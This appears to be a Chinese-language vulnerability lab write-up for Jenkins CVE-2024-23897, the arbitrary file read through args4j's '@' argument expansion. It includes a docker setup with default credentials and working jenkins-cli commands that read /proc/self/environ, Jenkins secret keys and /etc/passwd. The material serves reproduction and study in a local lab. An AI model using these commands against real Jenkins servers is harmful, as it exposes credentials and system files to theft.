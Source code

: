 # Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 漏洞环境

执行如下命令启动一个Jenkins server 2.441：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。

## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://localhost:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```


![](1.png)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

因为开启了“匿名用户可读”选项，你也可以直接使用`connect-node`命令读取完整文件内容：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
